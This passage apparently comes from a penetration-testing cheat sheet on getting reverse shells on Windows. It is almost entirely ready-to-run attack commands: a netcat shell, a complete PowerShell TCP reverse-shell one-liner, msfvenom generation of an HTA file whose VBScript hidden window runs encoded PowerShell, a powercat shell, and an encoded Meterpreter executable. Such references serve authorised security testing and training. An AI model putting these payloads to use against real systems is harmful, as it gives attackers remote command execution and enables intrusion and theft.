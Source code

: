 ```
nc.exe -e powershell.exe [IP] [PORT]
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Powershell

Also we can get a reverse shell without using any external file.

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ip-addr',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

We can also use `msfvenom hta-psh` reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6638 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set bwtVGMW = CreateObject("Wscript.Shell")
  Set tycIa5Pq = CreateObject("Scripting.FileSystemObject")
  For each path in Split(bwtVGMW.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If tycIa5Pq.FileExists(path + "\..\powershell.exe") Then
      bwtVGMW.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO....
```

### Powercat

Powercat is the netcat version written in powershell. Remember first download the script and import the module.

```
powercat -c ip-addr -p port -e cmd.exe
```

### Meterpreter

First, we need to create our _shellcode_ with **msfvenom**:

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 --encoder x86/shikata_ga_nai -f exe LHOST=[IP] LPORT=[PORT] > meterpreter.exe
```
